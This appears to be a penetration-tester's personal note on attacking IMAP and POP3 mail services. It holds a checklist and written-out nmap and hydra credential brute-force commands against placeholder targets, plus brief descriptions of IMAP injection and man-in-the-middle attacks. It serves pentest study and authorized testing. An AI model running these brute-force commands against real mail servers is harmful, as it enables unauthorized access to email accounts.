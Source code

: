 ```yaml
---
id: Exploitation
aliases: []
tags: []
---
```


# Exploitation

<!-- Checklist {{{-->
## Checklist

### IMAP

- [ ] Try already discovered credentials
- [ ] [[Exploitation#Brute Force|Brute force]]
    - [ ] [[Exploitation#Nmap (IMAP)|Nmap]]
    - [ ] [[Exploitation#Hydra (IMAP)|Hydra]]

### POP3

- [ ] Try already discovered credentials
- [ ] [[Exploitation#Brute Force (POP3)|Brute Force]]
    - [ ] [[Exploitation#Nmap (POP3)|Nmap]]
    - [ ] [[Exploitation#Hydra (POP3)|Hydra]]

<!-- }}} -->

<!-- IMAP {{{-->
## IMAP

<!-- Brute Force {{{-->
### Brute Force

Brute force imap server credentials

<!-- Nmap {{{-->
#### Nmap (IMAP)

```sh
nmap --script imap-brute -p 143,993 <target_ip>
```

```sh
nmap -sV --script imap-brute -p <port> <target_ip>
```
<!-- }}} -->

<!-- Hydra {{{-->
#### Hydra (IMAP)

```sh
hydra -L <users.txt> -P <passwords.txt> imap://<target_ip>
```

```sh
hydra -l <username> -P <passwords.txt> -f <target_ip> imap -V
```

```sh
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
```
<!-- }}} -->

<!-- }}} -->

<!-- IMAP Injection {{{-->
### IMAP Injection

[IMAP injection attacks](https://hackviser.com/tactics/pentesting/services/imap#imap-injection)
involve injecting malicious commands or data into IMAP requests
to exploit vulnerabilities in the server software
or gain unauthorized access to email accounts.
<!-- }}} -->

<!-- Man-in-the-Middle {{{-->
### Man-in-the-Middle

[MitM attacks](https://hackviser.com/tactics/pentesting/services/imap#man-in-the-middle-mitm-attacks)
on IMAP traffic can intercept and modify email messages exchanged
between the client and server, compromising the confidentiality
and integrity of email communication.
<!-- }}} -->

<!-- }}} -->

<!-- POP3 {{{-->
## POP3

<!-- Brute Force {{{-->
### Brute Force (POP3)

Brute force POP3 login credentials

#### Nmap (POP3)

```sh
nmap -p 110 --script pop3-brute --script-args userdb=users.txt,passdb=pass.txt <target>
```

#### Hydra (POP3)

```sh
hydra -L <users.txt> -P <passwords.txt> -f <target> pop3 -V
```

```sh
hydra -l <username> -P <passwords.txt> -f <target> pop3 -V
```
<!-- }}} -->

<!-- }}} -->
